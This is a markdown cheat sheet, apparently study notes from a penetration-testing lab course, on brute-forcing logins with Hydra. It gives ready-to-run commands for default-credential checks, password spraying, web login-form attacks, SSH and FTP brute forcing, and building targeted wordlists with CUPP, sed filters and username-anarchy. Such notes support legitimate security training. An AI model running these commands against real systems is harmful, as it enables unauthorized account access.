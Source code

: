 ## Default Passwords

#### Brute force a web login page w/ Hydra looking for default credentials
```Shell
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.211.23.155 -s 31099 http-get /
```

*==Always try and find default passwords first==*
## Username Brute Force

#### Username/Password Attack
```Shell
hydra -L /usr/share/SecLists/Usernames/Names/usernames.txt -P /usr/share/wordlists/rockyou.txt -u -f 178.35.49.134 -s 32901 http-get /
```
==*Tip: Add the "-u" flag, so that it tries all users on each password, instead of trying all 14 million passwords on one user, before moving on to the next.*==

#### Username Brute Force (Password Spraying)
```Shell
hydra -L /usr/share/SecLists/Usernames/Names/usernames.txt -p amormio -u -f 178.35.49.134 -s 32901 http-get /
```
Since we already found the password in the previous section, we may statically assign it with the "-p" flag, and only brute force for usernames that might use this password.

## Hydra Modules

#### Grep supported services
```Shell
hydra -h | grep "Supported services" | tr ":" "\n" | tr " " "\n" | column -e
```

#### Types of HTTP(s) Modules
1. `http[s]-{head|get|post}`:  serves for basic HTTP authentication
2. `http[s]-post-form`: used for login forms, like `.php` or `.aspx` and others.

*Tip: If we recognize that any of our input was pasted into the URL, the web application uses a GET form. Otherwise, it uses a POST form.*

#### Fail/Success String
If there's no failed login response, choose a string from the HTML code that's highly unlikely to be on the admin panel's page after a successful login, like the login button or the password field.

`Example: Log In Button`:
```html
  <form name='login' autocomplete='off' class='form' action='' method='post'>
```
Use `<form name='login'`

`Hydra parameters`:
```Shell
"/login.php:[user parameter]=^USER^&[password parameter]=^PASS^:F=<form name='login'"
```

## Login Form Attacks

#### Brute force login form (http-post-form)
```Shell
hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"
```

## Personalized Wordlists

#### CUPP
```Shell
cupp -i
```

#### Filtering Based on Password Policy
Example policy + Commands to modify list to fit the policy:
- 8 Characters or Longer
- Contains Special Characters
- Contains Numbers

```Shell
sed -ri '/^.{,7}$/d' william.txt            # remove shorter than 8
sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt # remove no special chars
sed -ri '/[0-9]+/!d' william.txt            # remove no numbers
```
#### Mangling
 Tools: 
 - [rsmangler](https://github.com/digininja/RSMangler)
 - [The Mentalist](https://github.com/sc0tfree/mentalist.git)

#### Custom Username Wordlist
[Username Anarchy](https://github.com/urbanadventurer/username-anarchy)
```Shell
./username-anarchy Alisa Havens > alisahavens.txt
```

## Service Authentication Brute Forcing

#### SSH
```Shell
hydra -L bill.txt -P william.txt -u -f ssh://178.35.49.134:22 -t 4
```

#### FTP
```Shell
hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1
```

## Wordlists

#### Default Passwords
`/usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`

#### Usernames
`/usr/share/SecLists/Usernames/Names/names.txt`

